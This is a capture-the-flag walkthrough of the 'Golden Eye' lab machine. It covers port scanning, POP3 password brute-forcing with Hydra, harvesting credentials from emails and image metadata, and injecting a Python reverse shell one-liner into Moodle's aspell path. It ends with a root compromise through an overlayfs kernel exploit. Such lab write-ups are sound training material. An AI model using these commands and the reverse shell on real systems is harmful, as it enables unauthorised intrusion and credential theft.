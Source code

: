 # Golden Eye

This machine tells an intriguing story from the world of James Bond. As we enumerate and explore its contents, the narrative becomes increasingly clear.

Using rustscan to enumerate open ports reveals four services: SMTP on port 25, an HTTP server on port 80, and POP3 running on ports 55006 and 55007. 

`rustscan -a 10.10.141.140 -- -sC  -sV` 

```php
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.141.140:25
Open 10.10.141.140:80
Open 10.10.141.140:55006
Open 10.10.141.140:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 11:46 IST
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 60 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     syn-ack ttl 60 Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55006/tcp open  ssl/pop3 syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
55007/tcp open  pop3     syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS TOP USER SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
```

The webpage displays a *TOP SECRET*  landing page that leads to a login screen. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image.png)

Examining the source code reveals a script containing two users—Boris and Natalya—along with an encoded password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%201.png)

We decode the password using cyberchef.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%202.png)

We use the username Boris and the decoded password to login to the page `/sev-home/` .

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%203.png)

The page source code mentions the same two users.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/80396a54-16c9-4bc1-aeef-b4f92b9fd433.png)

Examining the other services, we discover that POP3 can be used to read emails after authentication with valid credentials. Here are the common commands used.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%204.png)

We use `telnet` to connect and attempt authentication, but it fails. While the username is correct, we still need to find the password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/053e660b-5c70-4099-9bc7-4138837b1fc0.png)

We use Hydra to brute-force the password. When the rockyou.txt wordlist proved too time-consuming, we opted for a smaller wordlist based on another walkthrough.

`hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -s 55007 -f -V 10.10.141.140 pop3 -t 64`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%205.png)

Using the password we authenticate and start reading the emails.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/2a9485df-4076-4780-aae3-d6ce0abd556b.png)

First one is from root.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%206.png)

Second one from Natalya saying she can break his code.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%207.png)

Third one is rather interesting. It’s from a syndicate. Well well we have a mole among us. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%208.png)

Next we find Natalya’s password.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%209.png)

The first email is from root, instructing her to stop breaking Boris's code and warning her about the Janus syndicate—the same group Boris has been communicating with. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2010.png)

Second one is credentials for a new user `xenia` . Xenia is the new student sent by the syndicate who was verified by Boris.  The story is getting more clear.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2011.png)

To access the new URL we need to add it to `/etc/hosts` file.

`sudo nano /etc/hosts` 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2012.png)

We login to the URL provided using Xenia’s credentials and access the messages.

My profile → Messages

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2013.png)

The message reveals another user `doak` . Using hydra we find his password too.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2014.png)

Logging in and reading the email, he has left a mail for James Bond containing his credentials for the training site.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2015.png)

Logging in using the credentials and access his private files. It contains a secret text file saying he has the admin credentials.

My Profile → My Private Files

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2016.png)

Visiting the given page displays an image. After downloading it, we use `exiftool` to inspect it for any hidden metadata or embedded information.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2017.png)

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2018.png)

There is some `base64` encoded message in image description. Decoding it gives us the admin credentials.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2019.png)

The room hints us about a vulnerability with aspell spell checker we can exploit. We search for aspell in the search box in left section.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/e13eeb3a-544a-4a61-837f-7d71bcf3148e.png)

Here there is a “Path to aspell” with commands. We rewrite it with a reverse shell command that uses python and save it.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.17.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next we change the Spell engine to PSpellShell in text editor plugin settings and save it. 

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2020.png)

Next to create a new page we follow the below path.

My profile → Blogs → Add a new entry

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2021.png)

Setup  a netcat listener on the specified port and use the spell checker in the editor, which in turn will execute the command we injected in path to aspell.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2022.png)

We capture a reverse shell to the machine.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2023.png)

Now we download the `linuxprivchecker`  from the URL provided and send it to the victim machine by setting up a python server in the folder containing the file.

`https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2024.png)

Use `wget` to download the file into the victim machine’s `/tmp` folder. Running it and looking at the installed file we can see C compilation tool `cc` in the list.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2025.png)

The room hints us that the machine with a kernel version of 3.13.0-32-generic is vulnerable to `overlayfs` exploit and provide us with the URL to the exploit. The exploit provided uses `gcc` , we need to change it to `cc` in the code and send it to the victim machine like we did before. Compile it using `cc` and executing it gets us the root access.

`https://www.exploit-db.com/exploits/37292`

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2026.png)

The flag is hidden in root folder.

![image.png](Golden%20Eye%201d02d05419488069bef7eae3b1bfc1c3/image%2027.png)

